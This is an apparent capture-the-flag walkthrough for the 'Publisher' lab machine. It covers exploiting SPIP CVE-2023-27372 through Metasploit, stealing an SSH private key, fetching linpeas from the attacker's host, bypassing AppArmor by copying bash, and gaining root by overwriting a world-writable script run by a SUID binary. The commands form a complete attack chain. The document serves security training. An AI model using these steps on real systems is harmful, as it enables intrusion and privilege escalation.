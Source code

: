 # Publisher - Easy

```sh
sudo vim /etc/hosts
# map publisher.thm to IP

nmap -T4 -p- -A -Pn -v
```

* Open ports & services:

    * 22/tcp - ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.10
    * 80/tcp - http - Apache httpd 2.4.41

* The page on port 80 is for a community magazine "Publisher's Pulse: SPIP Insights & Tips"; within the webpage itself, there is not a lot of useful info and no links leading to other sections

* The webpage, designed by TemplateMo, looks very old in design - we can look for any components to exploit

* Web enumeration:

    ```sh
    feroxbuster -u http://publisher.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,bak,bac,md,jpg,png,ps1,js,txt,json,docx,pdf,zip,cgi,sh,pl,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent
    # directory scan
    ```

* From the directory scan, we find the '/spip' directory; this is for the SPIP web publishing system mentioned earlier in the homepage

* The source code shows the page on '/spip' is using SPIP version 4.2.0 (we can check this using Wappalyzer extension too)

* Googling for exploits related to SPIP 4.2.0 give us [CVE-2023-27372, unauthenticated RCE exploit](https://www.exploit-db.com/exploits/51536) - we can use this exploit, but it does not work

* There is an [exploit on GitHub as well for CVE-2023-27372](https://github.com/nuts7/CVE-2023-27372) but it does not work; we can search in Metasploit:

    ```sh
    msfconsole -q

    search spip
    # we have this exploit

    use exploit/unix/webapp/spip_rce_form

    options

    set RHOSTS publisher.thm
    set TARGETURI /spip
    set LHOST tun0

    run
    # run the exploit
    # we get a Meterpreter shell

    shell
    # launch a shell

    id
    # www-data

    hostname
    # random string, this could imply it is a Docker env

    ls -la /
    # it is a container, as this includes the .dockerenv file

    pwd
    # we are in home directory of 'think' user

    ls -la /home
    # there are no other users

    ls -la /home/think
    # we have a .ssh directory

    ls -la /home/think/.ssh
    # check if we can read the keys

    cat /home/think/.ssh/id_rsa
    # we can view this
    # copy this key contents

    # in attacker machine
    vim id_rsa
    # paste the SSH key here

    # we can confirm if the contents have been copied correctly using md5sum

    # reqd permission
    chmod 600 id_rsa

    ssh -i id_rsa think@publisher.thm
    # it does not ask for a password - we can SSH login now

    cat user.txt
    # user flag
    ```

* Now, we can enumerate further as 'think' user with ```linpeas``` and basic enumeration steps:

    ```sh
    # on attacker
    python3 -m http.server

    # in victim SSH
    cd /tmp

    wget http://10.14.63.75:8000/linpeas.sh
    # permission denied error
    # we cannot write to this directory it seems

    # we test in our home directory but cannot write there too

    # search for any other world-writable directory
    find / -perm -222 -type d 2>/dev/null
    # this gives a list of directories

    # we can try in all of those directories
    cd /var/tmp

    wget http://10.14.63.75:8000/linpeas.sh
    # we are able to write to in this folder

    chmod +x linpeas.sh

    ./linpeas.sh
    ```

* ```linpeas``` shows we have an unknown SUID & SGID binary ```/usr/sbin/run_container``` - we can check it further

* By running the binary ```/usr/sbin/run_container```, we get a list of Docker containers with container ID & name - currently there is only one container; we also get a prompt to enter container ID or to create a new one

* If we enter the existing container ID, we can see an error ```/opt/run_container.sh: line 16: validate_container_id: command not found``` - and we also have options to start, stop, restart or create container, or quit

* For now we can quit; the container ID seen here is the same as the hostname seen earlier in the reverse shell as ```www-data```

* We can check the binary further using ```strings``` - this mentions ```/bin/bash``` and ```/opt/run_container.sh```

* If we try to read the binary itself using ```cat```, it mentions ```/bin/bash -p /opt/run_container.sh``` - the ```-p``` flag is for 'privileged', and is used for scripts which need elevated privileges

* As for the script itself, we are not able to view the contents of ```/opt``` but the script, owned by root, is world-writable:

    ```sh
    ls -la /opt
    # permission denied

    ls -la /opt/run_container.sh
    # we can read and write to this

    cat /opt/run_container.sh

    vim /opt/run_container.sh
    # does not work
    ```

* We can try writing and injecting to the script but it does not work

* Based on the multiple restrictions seen (cannot write in /tmp, cannot read /opt, etc.), and as the room description and hint suggest, the box is using AppArmor

* We can [enumerate AppArmor](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor):

    ```sh
    # AppArmor profiles saved in /etc/apparmor.d/

    ls -la /etc/apparmor*

    # apparmor.d contains various profiles
    # it also mentions 'ash'

    cat /etc/passwd
    # 'ash' is the shell that the 'think' user is assigned

    echo $0
    # another way to check which shell is running

    cat /etc/apparmor.d/usr.sbin.ash
    # lists all the restrictions for our shell
    ```

* From the profile config for ```/usr/sbin/ash``` shell, we can see these rules (used AI for this):

    * ```deny /opt/ r``` - denies read access to ```/opt/```
    * ```deny /opt/** w``` - denies write access to all files & subdirectories under ```/opt/```
    * ```deny /tmp/** w``` - denies write access to all files & subdirectories under ```/tmp/```
    * ```deny /dev/shm w``` - denies write access to shared memory files in ```/dev/shm/```
    * ```deny /var/tmp w``` - denies write access to ```/var/tmp```
    * ```deny /home/** w``` - denies write access to all user home directories
    * ```/usr/bin/** mrix``` - grants apps permissions to modify, read, inherit and execute in ```/usr/bin/```
    * ```/usr/sbin/** mrix``` - grants apps permissions to modify, read, inherit and execute in ```/usr/sbin/```

* The rules seem to be configured to block writing to all temporary directories, but as we were able to write to ```/var/tmp``` earlier for ```linpeas```, it is apparent the rules are not complete - it does not explicitly deny write access to all files and subdirectories under ```/var/tmp``` (or ```/dev/shm```), like it does for ```/tmp``` (using ```/tmp/**```)

* Also, as the rules are applicable to ```ash``` shell, we can try switching to ```bash``` shell, so that AppArmor rules do not apply anymore:

    ```sh
    cp /bin/bash /var/tmp/bash
    # copy it to the writable directory

    cd /var/tmp

    ./bash
    
    echo $0
    # now we are in bash shell
    # so the AppArmor rules should not apply - we can test this

    ls -la /opt
    # we can list the contents now
    
    # now we can modify the script which we were not able to previously
    echo -e '#!/bin/bash\ncp /bin/bash /var/tmp/another_bash\nchmod +s /var/tmp/another_bash' > /opt/run_container.sh

    # confirm the script changed
    cat /opt/run_container.sh

    # now we can run the SUID binary
    /usr/sbin/run_container

    # check bash has been copied by root and assigned SUID bit
    # this works because the original script uses '-p' flag
    ls -la /var/tmp

    /var/tmp/another_bash -p
    # we get root
    ```
